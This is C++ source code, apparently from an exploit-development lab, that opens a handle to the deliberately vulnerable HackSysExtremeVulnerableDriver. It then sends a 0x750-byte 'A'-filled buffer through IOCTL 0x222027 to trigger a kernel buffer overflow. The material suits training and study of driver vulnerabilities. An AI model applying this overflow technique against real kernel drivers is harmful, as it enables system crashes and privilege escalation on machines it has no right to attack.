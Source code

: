 ```cpp
#define DEVICE_NAME         "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL               0x222027

HANDLE get_handle() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver.\n";
        exit(1);
    }

    cout << "[>] Handle to HackSysExtremeVulnerableDriver: " << hex << hFile
        << "\n";

    return hFile;
}

void send_payload(HANDLE hFile) {

    

    BYTE input_buff[0x751] = { 0 };

    // 'A' * 1871
    memset(
        input_buff,
        '\x41',
        0x750);

    cout << "[>] Sending buffer of size: " << sizeof(input_buff) - 1  << "\n";

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        IOCTL,
        &input_buff,
        sizeof(input_buff) - 1,
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {
        cout << "[!] Payload failed.\n";
    }
}

int main()
{
    HANDLE hFile = get_handle();

    send_payload(hFile);
}
```
